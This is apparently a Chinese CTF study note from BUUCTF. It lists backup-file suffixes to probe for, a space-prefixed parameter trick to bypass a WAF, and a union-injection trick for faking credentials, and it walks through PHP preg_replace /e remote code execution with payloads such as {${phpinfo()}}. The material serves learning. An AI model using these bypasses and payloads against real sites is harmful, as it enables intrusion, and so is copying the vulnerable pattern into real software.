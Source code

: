 # 💘 BUUCTF补充知识点

## 1.php网站备份

网站备份有两部分，一部分是数据库内容，另一部分是网站的源码。

常用的备份文件的后缀有



| 常见备份文件后缀                                                                      |
| ----------------------------------------------------------------------------- |
| .git                                                                          |
| .svn                                                                          |
| .swp                                                                          |
| .bak                                                                          |
| .bash\_history                                 .\~                       .bkf |

***

## 2.传参不允许含有字母

当传入的参数不允许含有字母，但是我们执行命令，查找命令这种的都需要传入字母的，这个时候的处理方法就是往变量面前加一个空格。比如$\_GET\['name']，我们在url输入的是?  name=。在？后面有一个空格。这个常用来绕过一个waf。

它的原理是

> 现在的变量叫（空格）name，不是name，但是php解析器在处理的时候会把空格去掉，这样就能够成功了，并且还上传的字母。

***

## 3.联合注入可以自己创建结果

联合注入有个小技巧，就是当联合查询不存在的数据的时候，他会自动创建这个不存在的数据，会创建一个虚拟数据让你找到。所以如果我们有时候不知道一个密码的时候可以自动创建一个密码或者用户名之类的去绕过

<figure><img src="../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>





***



## <mark style="color:red;">※4.preg\_replace与RCE</mark>

这个是做题说的preg\_replace与RCE漏洞的问题。

我们是按照先知社区的来学习，因为这个完全没有遇到过，第一次看到别人这么说。

### ①案例引入

这例子他也是用的我碰到题目的例子。真是让人sad。但是他说案例简单，我哭死。

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

这里解释一下这个/e模式究竟是什么吧。也解释一下这个函数（有点坚持不下去了）

> preg\_replace()执行正则表达式的搜索和替换。在subject中搜索pattern模式的匹配项，并且替换为replacement，如果指定了limi个匹配，则仅替换limit个匹配。
>
> ```php
>  preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit ] )
> ```

{% hint style="info" %}
/e 修正符使 preg\_replace() 将 replacement 参数当作 PHP 代码（在适当的逆向引用替换完之后）。提示：要确保 replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg\_replace() 的行中出现语法解析错误。&#x20;
{% endhint %}

所以现在我们知道了第一个和第三个参数是我们可以输入的。preg\_replace函数会在匹配到符号正则的字符串的时候，会将第二个参数当作代码来执行。

但是这一下就有个问题了，我们看到题目中的第二个参数是固定的strtolower（"\\\1")字符串。



### ①爬坑1

所以上面的指令其实是eval（‘strtolower（"\\\1");')，因为转义字符，这个\\\1其实是\1。这个\1另有说法

> 反向引用：
>
> 对一个正则表达式模式或部分模式 **两边添加圆括号** 将导致相关 **匹配存储到一个临时缓冲区** 中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。每个缓冲区都可以使用 '\n' 访问，其中 n 为一个标识特定缓冲区的一位或两位十进制数。
>
>

这里举个例子

<figure><img src="../.gitbook/assets/image (254).png" alt=""><figcaption></figcaption></figure>

从答案来看，payload是/？.\*={${phpinfo()\}}所以参数名其实是.\*

值为{${phpinfo()\}}，所以我们的正则表达式发生了变化。

```
原先的语句：
 preg_replace('/(' . $regex . ')/ei', 'strtolower("\\1")', $value);
变成了语句：
 preg_replace('/(.*)/ei', 'strtolower("\\1")', {${phpinfo()}});
```



### ②爬坑2

这个坑是GET传递参数导致的坑。

我们如果是把.\*写到程序里面，肯定可以成功执行，但是如果我们是通过GET参数传入的话，我们无法执行phpinfo函数，因为我们通过GET传递的.\*会变成\__\*，这个原因是我们传入的非法的$_\_GET数组参数名，会将其转化为下划线，所以我们正则表达式会匹配失败。

通过文章作者fuzz后发现，

当非法字符为首字母时，只有点号会被替换成下划线。对此我们有另外一种匹配方法，这里贴出来。

```python
 \S*=${phpinfo()}
```



### ③爬坑3

这里来说一下为什么是{${phpinfo()\}}或者${phpinfo()}，才能执行phpinfo函数。这是因为php可变变量的原因。在php中双引号包裹的字符串中可以解析变量，单引号就不行。${phpinfo()}中的phpinfo（）会被当做变量先执行，执行后，就变成${1}了。所以

下面的这个问题是

```php
var_dump(phpinfo()); 
// 结果：布尔 true
var_dump(strtolower(phpinfo()));
// 结果：字符串 '1'
var_dump(preg_replace('/(.*)/ie','1','{${phpinfo()}}'));
// 结果：字符串'11'

var_dump(preg_replace('/(.*)/ie','strtolower("\\1")','{${phpinfo()}}'));
// 结果：空字符串''
var_dump(preg_replace('/(.*)/ie','strtolower("{${phpinfo()}}")','{${phpinfo()}}'));
// 结果：空字符串''
这里的'strtolower("{${phpinfo()}}")'执行后相当于 strtolower("{${1}}") 又相当于 strtolower("{null}") 又相当于 '' 空字符串
```































### 参考门：

{% embed url="https://blog.csdn.net/senlin1202/article/details/50800009" %}

{% embed url="https://xz.aliyun.com/t/2557?time__1311=n4%2BxnieDqxg7Ki%3DD%2FWT4BIalhxRex7u%2BD" %}













